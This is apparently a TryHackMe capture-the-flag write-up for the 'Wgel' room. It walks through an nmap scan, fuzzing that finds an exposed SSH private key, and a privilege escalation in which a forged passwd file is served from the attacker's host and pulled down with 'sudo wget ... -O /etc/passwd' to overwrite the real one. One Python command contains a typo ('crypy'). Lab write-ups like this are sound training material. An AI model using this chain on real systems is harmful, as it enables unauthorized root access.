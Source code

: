 ```bash
# PLATFORM          . THM
# CTF NAME          . Wgel
# DESCRIPTION       . Can you exfiltrate the root flag?
# DIFFICULTY        . Easy
# CTF LINK          . https://tryhackme.com/room/wgelctf
```

```
sudo nmap -sSVC -T5 10.10.28.223 -p- -oN wgel
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 94961b66801b7648682d14b59a01aaaa (RSA)
|   256 18f710cc5f40f6cf92f86916e248f438 (ECDSA)
|_  256 b90b972e459bf32a4b11c7831033e0ce (ED25519)

80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- After wandering around the webpage - which is the default apache page - we find the following comment in the source code

```
 <!-- Jessie don't forget to udate the webiste -->
```

- So we got one potential username. After fuzzing, we find the `/sitemap` directory which seems to contain the main web app.

- There wasn't anything useful around here, just a web template.

- I spent some time trying to find vulnerabilities in the contact form, but I had no luck.

- I decided I must've missed something, so I fuzzed the `/sitemap` directory again, this time using another dictionary: `dirb's common.txt`.

- This time, the results were better :) 

```
.ssh                    [Status: 301, Size: 319, Words: 20, Lines: 10]
```

- Inside it's a `id_rsa` private key that will allow us to connect as `jessie` on the box.

```bash
sudo -l

User jessie may run the following commands on CorpOne:
    (ALL : ALL) ALL
    (root) NOPASSWD: /usr/bin/wget
```

- However, we're limited only to `wget` as we don't know jessie's password.

- I tried to escalate privileges using GTFO payload, but surprisingly it didn't work.

- I used `cat /etc/passwd` on the target and copied the output to a local file on my box.

- Then, I've used `python3 -c 'import crypy; print(crypt.crypt("password"))'` to generate a new hash and replaced the `x` for `root` with the hash generated. 

- With the altered passwd file in the directory, I've started a webserver using python: `python3 -m http.server 80`

- Then, from the target, I used `sudo wget http://ip/passwd -O /etc/passwd` ; since we can use it as sudo, why not replace the actual file :) 

- `su root` -> insert password :) 

- First flag is in `/home/jessie/Documents/user_flag.txt`
- Second flag is in `/root/root_flag.txt`.

